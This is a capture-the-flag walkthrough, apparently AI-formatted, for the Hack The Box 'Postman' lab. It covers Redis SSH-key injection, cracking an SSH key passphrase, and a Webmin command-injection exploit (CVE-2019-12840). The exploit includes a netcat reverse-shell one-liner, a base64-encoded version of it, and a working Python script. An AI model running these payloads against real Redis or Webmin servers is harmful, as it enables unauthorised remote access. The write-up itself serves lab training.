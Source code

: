 # 📮 HTB: Postman — Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
**Tags:** `redis`, `Webmin`, `ssh`, `key cracking`, `privesc`, `CVE-2019-12840`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.160
nmap -p 22,80,6379,10000 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.160
```

- **Ports:**  
  - `22/tcp`: [OpenSSH 7.6](SSH)
  - `80/tcp`: [Apache 2.4.29](HTTP)
  - `6379/tcp`: Redis 4.0.9  
  - `10000/tcp`: Webmin (MiniServ 1.910)  

---

## 🌐 Web Enumeration

### Port 80

- Basic HTML page (under construction)
- Gobuster:

```bash
gobuster dir -u http://10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php
```

- Found: `/upload`, `/images`, `/fonts`, `/css`, `/js` — but all uninteresting

### Port 10000 (Webmin)

- Webmin login on HTTPS
- Hostname: `postman` from redirect
- Default login page shown
- No useful links via HTTP

---

## 🔧 Redis Enumeration (TCP 6379)

### Basic Commands

```bash
redis-cli -h 10.10.10.160
> keys *
> config get dir
> config set dir ./.ssh
```

### Inject SSH Key

```bash
ssh-keygen -f ~/id_rsa_generated
(echo -e "\n\n"; cat ~/id_rsa_generated.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set 0xdf
```

### Save DB to `.ssh/authorized_keys`

```bash
redis-cli -h 10.10.10.160
> config set dbfilename "authorized_keys"
> save
```

---

## 🐚 Shell as redis

```bash
ssh -i ~/id_rsa_generated redis@10.10.10.160
```

✅ Shell as `redis`  
🧾 Look for `.ssh/authorized_keys` to confirm injection

---

## 👤 Priv Esc: redis → Matt

### Found Encrypted SSH Key

```bash
ls -l /opt/id_rsa.bak
```

### Crack Key

```bash
/opt/john/run/ssh2john.py id_rsa.bak > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: computer2008
```

### Cannot SSH (Denied in `/etc/ssh/sshd_config`)

```bash
# grep DenyUsers /etc/ssh/sshd_config
DenyUsers Matt
```

### Switch User with `su`

```bash
su Matt
# Password: computer2008
```

✅ Shell as `Matt`  
📄 `cat /home/Matt/user.txt`

---

## 🔓 Priv Esc: Matt → root (via Webmin)

### Login to Webmin

```bash
https://10.10.10.160:10000/
# Username: Matt
# Password: computer2008
```

✅ Access only to “Package Updates” module

### Exploit: CVE-2019-12840 (Webmin RCE)

- POST to:

```http
POST /package-updates/update.cgi
```

- Data:

```http
u=acl/apt
u= | bash -c "base64 payload | base64 -d | bash"
ok_top=Update Selected Packages
```

### Reverse Shell Payload (Base64 Encoded)

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f' | base64
```

### Python Exploit Example

```python
import requests
import html
import re

s = requests.session()
s.post('https://10.10.10.160:10000/session_login.cgi',
       data={'page':'', 'user':'Matt', 'pass':'computer2008'},
       verify=False)

payload = 'echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNiA0NDMgPi90bXAvZgo=|base64 -d|bash -i'

resp = s.post('https://10.10.10.160:10000/package-updates/update.cgi',
              data=[('u','acl/apt'), ('u', f' | bash -c "{payload}"'), ('ok_top','Update Selected Packages')],
              headers={'Referer':'https://10.10.10.160:10000/'},
              verify=False)

print(html.unescape(re.findall('<pre>(.*)</pre>', resp.text, re.DOTALL)[0]))
```

---

## ⚙️ Shell as root

```bash
nc -lvnp 443
```

✅ Reverse shell connects as root  
📄 `cat /root/root.txt`

---

## 🧠 Beyond Root: Why Metasploit Redis Exploit Failed

### Exploit:

```bash
use exploit/linux/redis/redis_unauth_exec
```

### Issue:

- Redis throws:

```
-ERR unknown command 'MODULE'
```

### Reason:

```bash
grep MODULE /etc/redis/redis.conf
rename-command MODULE ""
```

✅ Redis `MODULE` command is **disabled**

---

Let me know if you'd like this in collapsible Obsidian format or with code snippets styled for GitHub readmes!